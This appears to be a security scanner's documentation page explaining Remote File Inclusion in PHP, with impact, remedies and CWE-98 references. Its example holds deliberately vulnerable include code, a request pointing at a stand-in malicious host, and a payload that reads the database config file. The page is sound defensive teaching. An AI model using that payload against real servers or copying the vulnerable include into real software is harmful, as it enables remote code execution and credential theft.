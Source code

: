 <a class="not-decorated-link" href="#/guide/vulnerabilities/overview.md">< Back to tests</a>

# Remote File Inclusion (RFI)

<b>Severity</b>: <b><font color="#DB1E54">High</font></b><br>
<b>Test name</b>: Remote File Inclusion (RFI)

<table id="simple-table">
    <tr>
        <th><strong>Summary</strong></th>
    </tr>
</table>
Remote File Inclusion is an attack applicable to web applications that dynamically include external files or scripts. When such web applications take user input (URL, parameter value, etc.) and pass them into file include commands, the web application might be tricked into including remote files with malicious code. As a result, the malicious code can be downloaded and executed on the server with the privileges of the current web server user.

<p>

<table id="simple-table">
    <tr>
        <th><strong>Impact</strong></th>
    </tr>
</table>

This vulnerability allows an attacker to:
* Execute an unauthorized code on the server side application
* Execute an unauthorized code on the client side application
* Gain sensitive information
* Crash the server

<p>

<table id="simple-table">
    <tr>
        <th><strong>Basic example of Remote File Inclusion (PHP)</strong></th>
    </tr>
</table>

1. Server side code:
```js
    <?php
    $file = 'form.php';
    if (isset($_REQUEST['file'])) {
        $file = $_REQUEST['file'];
    }
    include $file;
    ```
2. Request:
    ```
    https://your_web_site/preview.php?file=http://dangerous_web_site.com/malicious_code.php
    ```
3. Content of <i>"malicious_code.php"</i>
```js
<?php var_dump(include('../config/db.php'));
```
4. As a result, the attacker can steal the configuration of the database. 

<p>

<table id="simple-table">
    <tr>
        <th><strong>Location</strong></th>
    </tr>
</table>

* The issue can be found in the <b>source code</b> on the <b>server side</b>.
* The issue can be found in the <b>source code</b> on the <b>client side</b>.</li>

<p>

<table id="simple-table">
    <tr>
        <th><strong>Remedy suggestions</strong></th>
    </tr>
</table>

* The most effective solution is to avoid passing user-submitted input to any file system / framework API.
* If you have a limited number of the allowed files to include, all of them can be stored as corresponding records in long time storage (for example, database) with specific identifiers. Such identifiers can be used as the request parameters to identify and include only allowed files.
* If it is not possible to list the allowed files, and user input cannot be avoided, ensure that the supplied values are valid. Sanitize the input by creating a list of trusted files. Use the “whitelist” approach.

<p>

<table id="simple-table">
    <tr>
        <th><strong>Classifications</strong></th>
    </tr>
</table>

* CWE-98
* CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:L/A:L

<p>

<table id="simple-table">
    <tr>
        <th><strong>References</strong></th>
    </tr>
</table>

* [https://cwe.mitre.org/data/definitions/98.html](https://cwe.mitre.org/data/definitions/98.html)
* [http://projects.webappsec.org/w/page/13246955/Remote%20File%20Inclusion](http://projects.webappsec.org/w/page/13246955/Remote%20File%20Inclusion)
* [https://en.wikipedia.org/wiki/File_inclusion_vulnerability](https://en.wikipedia.org/wiki/File_inclusion_vulnerability)

<a class="not-decorated-link" href="#/guide/vulnerabilities/overview.md">< Back to tests</a>